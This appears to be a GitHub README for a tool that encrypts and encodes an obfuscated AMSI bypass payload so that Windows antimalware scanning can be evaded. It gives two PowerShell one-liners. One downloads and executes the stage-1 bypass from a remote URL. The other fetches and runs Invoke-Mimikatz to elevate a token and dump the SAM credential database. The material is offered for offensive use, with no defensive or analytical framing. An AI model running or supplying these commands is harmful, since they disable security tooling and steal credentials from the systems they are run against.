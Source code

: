 # Encrypted/Encoded Obfuscated AMSI Bypass

- generator.go  
This wraps an obfuscated AMSI payload from amsi.fail with encryption and encoding  

- stage-1.ps1  
This decodes and invokes the encrypted, encoded, obfuscated payload

Download and invoke stage-1 payload:  
```  
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/timsonner/encode-decode-payloads/refs/heads/master/amsi-bypass/stage-1.ps1")
```  

Download and invoke whatever you like after stage-1:  
```  
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
```  

